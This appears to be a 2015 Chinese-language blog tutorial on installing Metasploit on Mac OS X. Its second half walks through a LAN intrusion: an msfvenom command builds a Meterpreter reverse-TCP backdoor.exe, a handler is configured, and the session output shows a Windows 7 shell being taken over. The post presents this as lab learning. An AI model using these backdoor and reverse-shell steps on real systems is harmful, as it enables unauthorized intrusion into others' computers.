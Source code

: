 ```yaml
---
layout:     post
title:      Metasploit折腾小记
date:       2015-11-08 11:40:25
author:     Hsmouc
summary:    Metasploit在Mac OS上的安装和基础使用    
categories: Hacking
thumbnail:  heart
tags:
 - 欢迎来我的博客
---
```

- 还是写在文前：怎么说呢，折腾这个东西我的内心是很复杂的。一个美好的用来写模电和概率和大物的周日就这么没了ˊ_>ˋ哎呀，可是人家就是这么执着的跳坑怎么破。还是和以往一样，这篇文章的相关技术仅供学习，千万不要做出一些危险出格的事情。

###Metasploit的安装
这一部分真的是让我的心都碎了，也是最难折腾的。在YouTube上面找了好多视频，永远都是人家一路回车，我一路报错，果然是人品用完的节奏。闲话少说，开始安装，我的系统是Mac OS X 10.10.5，一般大家都是用BT5干这种活啦。

1. 从Github上克隆Metasploit项目    
选一个合适的目录，然后在终端里面输入:
{% highlight c %}
git clone git@github.com:rapid7/metasploit-framework.git
{% endhighlight %}
之后把终端cd到你刚才选择的目录，输入:
{% highlight c %}
msfconsole
{% endhighlight %}
报错就对了，因为你没有装蛋疼的依赖环境。
2. 安装依赖环境  
2.1 *Ruby*  
因为我是Mac系统又安装了Xcode，所以已经有了Ruby 1.8的环境，但是后续安装会要求更高的版本，所以我们先更新一下Ruby，推荐使用rvm，具体参见[脉脉不得语的技术博客](http://www.inferjay.com/blog/2013/05/09/how-to-install-ruby-1-dot-9-3-in-mac-osx/)  
2.2 *Homebrew*   
这玩意是个OS X的软件管理器，相当好用，我们使用Ruby命令来安装它，下面的安装会用到。
{% highlight ruby %}
ruby -e "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/master/install)"
{% endhighlight %}
我们作死运行下Metasploit，发现还是报错，具体报什么错我也忘记了（哭）。     
2.3 *Nmap*   
强大的嗅探器，使用我们刚刚装好的homebrew安装：
{% highlight c %}
brew install nmap
{% endhighlight %}    
2.4 *bundler*  
就是这货坑死人不偿命，按照教程来说，只需要简单的一句指令：
{% highlight c %}
gem install bundler
{% endhighlight %}
我猜你们一定会在安装到nokogiri的时候报错，事实就是这玩意需要自己手动安装，报错提示libiconv is missing，解决方案：
{% highlight c %}
brew update
xcode-select --install
brew link libiconv--force
gem install nokogiri -- --with-iconv-dir=/usr/local/Cellar/libiconv/1.14
{% endhighlight %}
再次使用gem install bundler
3. 安装postgresql并配置。   
这个我不会-_-#，因为我发现不配置数据库的话Metasploit已经可以使用了，不用数据库的视频教程见[YouTube](https://www.youtube.com/watch?v=C2CEQupM2PM).我基本上是按照他的顺序安装的。   
关于配置数据库的教程：[RickGrey](http://www.freebuf.com/articles/system/36924.html)(中文教程)、[Darkoperator](http://www.darkoperator.com/installing-metasploit-framewor/)(英文教程)。  
其他的相关问题可以在官方的论坛[RAPID7COMMUNITY](https://community.rapid7.com/community/metasploit)上交流。   

###一次简单的内网渗透
- 工具：Mac OS X with Metasploit(Attacker)  Windows 7(Victim)
- 原理：通过msfpayload生成后门exe然后上传到目标机器上执行，通过本地监听获得meterpreter shell，并得到shell
####生成一个backdoor.exe
Windows:
{% highlight c %}
sudo ./msfvenom windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> X > backdoor.exe
{% endhighlight %}
几点说明：如果被攻击的计算机和你在同一局域网下，可以使用LAN IP，用ifconfig即可，如果是WAN攻击则使用WAN IP即可。     
如果运行sudo ./msfvenom终端提示你安装bundler，自求多福吧，我也不知道怎么解决的。耗了一下午反复装了无数遍最后居然莫名其妙的好了。  
这里使用的msfvenom是因为软件更新，原先的msfpayload功能已经集成在了msfvenom里了。
####上传backdoor.exe并获得shell
直接上指令：  
{% highlight c %}
$ msfconsole
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.3
LHOST => 192.168.1.3
msf exploit(handler) > set LPORT 4444
LPORT => 4444
msf exploit(handler) > exploit
{% endhighlight %}
在Victim的计算机上双击backdoor.exe，顺利的话会这样：
{% highlight c %}
[*] Started reverse handler on 192.168.1.3:4444
[*] Starting the payload handler...
[*] Sending stage (957486 bytes) to 192.168.1.3
[*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.3:54411) at 2015-11-08 22:07:07 +0800
{% endhighlight %}
然后输入shell尽情玩耍吧……   
附上一张截图：
![](http://ww4.sinaimg.cn/mw690/005WMcFzjw1exupqph2nvj313w0bxack.jpg)
由图可见我完全接管了Windows 7的shell，下面就可以随心所欲了23333
###小结
对于linux来说，遇到错误真的就是Google，复制命令然后祈祷了。装什么东西都要搞一大堆依赖包，不过总体来说还是比较人性化，大多数时候终端会告诉你你需要装什么。Metasploit功能强大，最近在测试的只是基于LAN下的计算机，更深入的问题留作以后探讨。     
最后用BackTrack Linux上的一句话来作结：
>The quieter you become,the more you are able to hear...